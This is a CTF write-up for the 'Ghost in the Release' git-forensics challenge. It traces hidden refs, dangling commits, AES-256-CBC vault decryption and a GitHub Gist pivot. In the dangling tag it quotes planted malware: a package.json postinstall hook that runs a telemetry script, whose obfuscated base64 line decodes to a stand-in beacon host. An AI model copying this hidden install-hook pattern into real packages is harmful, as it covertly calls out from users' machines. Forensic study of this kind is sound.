

# Ghost in the Release — Cytech CTF Write-Up

<div align="center">


</div>

---

## 📋 Challenge Information

| Field | Detail |
| :--- | :--- |
| **Challenge Name** | Ghost in the Release |
| **Category** | Git Forensics / Applied Cryptography / OSINT |
| **Author** | C1ph3r |
| **Challenge Artifact** | `payguard-vault.tar.gz` |
| **Final Flag** | `Cryptix{v4ult_unl0ck3d_st4g3_tw0_n0t3s_0s1nt_g1st_w1ns}` |

---

## 🎯 Incident Scenario & Challenge Overview

An incident response (IR) engagement was initiated after security tooling flagged suspicious outbound telemetry originating from an internal deployment of `payguard-vault`. 

When inspecting the repository at first glance, the default `main` branch appears clean and ordinary. However, threat actors frequently exploit internal Git plumbing structures—including unmerged Pull Request heads, orphaned commit objects, Git notes, and detached stashes—to conceal encrypted operational stages and exfiltration pathways.

> **Objective:** Unpack `payguard-vault.tar.gz`, discover hidden Git references and orphaned commits, decrypt two multi-stage encrypted configuration vaults using OpenSSL PBKDF2/AES-256-CBC, pivot to public OSINT channels, and recover all three flag fragments.

**Flag Format:**
```text
Cryptix{<Fragment_A>_<Fragment_B>_<Fragment_C>}
```

---

## 🗺️ Investigation Flowchart



---

## 🔍 Detailed Forensic Walkthrough & Commands

### 1. Extracting the Archive & Inspecting Git Plumbing

Unpack the archive and enter the repository:

```bash
tar -xzf payguard-vault.tar.gz
cd payguard-vault

# Verify normal branch status
git status
git log --oneline
```

The commit log on `main` reveals only standard, clean commits. To enumerate all hidden internal Git plumbing references across the entire repository:

```bash
git for-each-ref --format='%(refname) %(objectname:short) %(subject)'
```

#### Identified Hidden References:
* `refs/pull/23/head` (Commit `d010abf`) — Pull request head left in local git database.
* `refs/notes/ir` (Commit `a7d6f92`) — Custom Git note namespace for Incident Response.
* `refs/stash` (Commit `49c5f4c`) — Unapplied Git stash commit.

---

### 2. Inspecting PR #23 & The Encrypted Vault

Inspecting the pull request commit:

```bash
git show d010abf
```

This commit added three crucial files:
1. `vault/config.enc` — Stage 1 encrypted configuration.
2. `vault/stage2.enc` — Stage 2 encrypted payload.
3. `config/vault.params` — Cryptographic parameters file:
   ```ini
   CIPHER=aes-256-cbc
   ITER=200000
   MD=sha256
   ```

Inspecting the custom incident response note:

```bash
git notes --ref=ir show
```

**Output:**
> *"pw is not in CI. it lives where branches never look."*

---

### 3. Finding Dangling / Orphaned Git Objects (`git fsck`)

The clue *"where branches never look"* refers to **unreachable or dangling Git objects**—commits and tags that exist in the object database (`.git/objects`) but are no longer pointed to by any active branch or tag reference (often caused by rebases, amends, or deleted branches).

Run `git fsck` with unreachable and dangling checks:

```bash
git fsck --unreachable --dangling --no-reflogs
```

**Output Identified:**
* `dangling commit 7779aec`
* `dangling tag 3573063` (`v2.3.1`)

#### Analyzing Dangling Tag `v2.3.1` (Commit `3573063`):
```bash
git show 3573063
```
* Diff reveals an injected `package.json` lifecycle hook:
  ```json
  "scripts": {
    "postinstall": "node scripts/telemetry.js"
  }
  ```
* Looking at `scripts/telemetry.js` reveals an obfuscated beacon:
  ```javascript
  const target = Buffer.from("aHR0cHM6Ly9jZG4ucWFsYW0tbWV0cmljcy5leGFtcGxlL3UvN2YzYQ==", "base64").toString();
  ```
  Decodes to `https://cdn.qalam-metrics.example/u/7f3a`, explaining the initial security alert.

#### Analyzing Dangling Commit `7779aec`:
```bash
git show 7779aec
```
* Commit message: `"ci: add env for release pipeline"`
* Contains an abandoned release environment file `.env.ci`:
  ```bash
  VAULT_PASS=Qal4m-R3l3as3!2026
  ```

---

### 4. Decrypting Stage 1 (`vault/config.enc`)

From `config/vault.params`:
* **Algorithm:** `aes-256-cbc`
* **Key Derivation:** `pbkdf2`
* **Iteration Count:** `200000`
* **Message Digest:** `sha256`
* **Passphrase:** `Qal4m-R3l3as3!2026`

#### OpenSSL Execution:
```bash
openssl enc -d -a -aes-256-cbc -pbkdf2 -iter 200000 -md sha256 \
  -pass pass:"Qal4m-R3l3as3!2026" -in vault/config.enc
```

#### Decrypted Output:
```ini
OPERATOR=ph4nt0m-byte
FRAG_A=v4ult_unl0ck3d
STAGE2_FILE=vault/stage2.enc
STAGE2_PASS=Ph4nt0m!St4ge2-Kn0ck
```

**Recovered Data:**
* **Fragment 1:** `v4ult_unl0ck3d`
* **Threat Operator Alias:** `ph4nt0m-byte`
* **Stage 2 Passphrase:** `Ph4nt0m!St4ge2-Kn0ck`

---

### 5. Decrypting Stage 2 (`vault/stage2.enc`)

Decrypting the second stage file with the newly recovered password `Ph4nt0m!St4ge2-Kn0ck`:

```bash
openssl enc -d -a -aes-256-cbc -pbkdf2 -iter 200000 -md sha256 \
  -pass pass:"Ph4nt0m!St4ge2-Kn0ck" -in vault/stage2.enc
```

#### Decrypted Output:
```ini
FRAG_B=st4g3_tw0_n0t3s
NEXT=operator keeps working notes where GitHub shows public snippets
```

**Recovered Data:**
* **Fragment 2:** `st4g3_tw0_n0t3s`
* **Pivot Clue:** *"operator keeps working notes where GitHub shows public snippets"* $\implies$ GitHub Gists for user `ph4nt0m-byte`.

---

### 6. OSINT Pivoting: Tracking `ph4nt0m-byte` on GitHub Gists

Following the clue to GitHub Gists for the operator handle:
* **Target Profile:** `https://gist.github.com/ph4nt0m-byte`
* **Discovered Public Gist:** [https://gist.github.com/ph4nt0m-byte/570ad1896f103507b245575fdf422964](https://gist.github.com/ph4nt0m-byte/570ad1896f103507b245575fdf422964)

#### Fetching via Terminal / curl:
```bash
curl -s https://gist.githubusercontent.com/ph4nt0m-byte/570ad1896f103507b245575fdf422964/raw/gistfile1.txt
```

**Content of `gistfile1.txt`:**
```text
frag3: 0s1nt_g1st_w1ns
```

* **Fragment 3:** `0s1nt_g1st_w1ns`

---

## 🚩 Flag Assembly

Combine the three fragments separated by underscores:
* **Fragment 1:** `v4ult_unl0ck3d`
* **Fragment 2:** `st4g3_tw0_n0t3s`
* **Fragment 3:** `0s1nt_g1st_w1ns`

```text
Cryptix{v4ult_unl0ck3d_st4g3_tw0_n0t3s_0s1nt_g1st_w1ns}
```

---

## 💡 Summary Attack Chain

```text
payguard-vault.tar.gz
└── git for-each-ref (Discovered pull/23, notes/ir, stash)
    └── git notes --ref=ir show ("where branches never look")
        └── git fsck --unreachable --dangling (Found commit 7779aec)
            └── .env.ci: VAULT_PASS = Qal4m-R3l3as3!2026
                └── Decrypt vault/config.enc (AES-256-CBC, PBKDF2, 200k iter)
                    ├── FRAG_A = v4ult_unl0ck3d
                    ├── OPERATOR = ph4nt0m-byte
                    └── STAGE2_PASS = Ph4nt0m!St4ge2-Kn0ck
                        └── Decrypt vault/stage2.enc
                            ├── FRAG_B = st4g3_tw0_n0t3s
                            └── Clue: GitHub public snippets
                                └── OSINT on GitHub Gists for ph4nt0m-byte
                                    └── FRAG_C = 0s1nt_g1st_w1ns
                                        └── Cryptix{v4ult_unl0ck3d_st4g3_tw0_n0t3s_0s1nt_g1st_w1ns}
```

---

## 📚 Forensic Concepts & Commands Cheat Sheet

| Task | Git / OpenSSL Command |
| :--- | :--- |
| **Inspect all local & remote references** | `git for-each-ref --format='%(refname) %(objectname)'` |
| **View custom Git notes namespace** | `git notes --ref=<namespace> show` |
| **Find dangling / orphan commits & tags** | `git fsck --unreachable --dangling --no-reflogs` |
| **Inspect raw commit / object by SHA** | `git show <commit-hash>` |
| **Decrypt AES-256-CBC with PBKDF2** | `openssl enc -d -a -aes-256-cbc -pbkdf2 -iter <N> -md sha256 -pass pass:<P> -in <FILE>` |
| **Fetch raw remote Gist file** | `curl -s https://gist.githubusercontent.com/<user>/<gist_id>/raw/<filename>` |
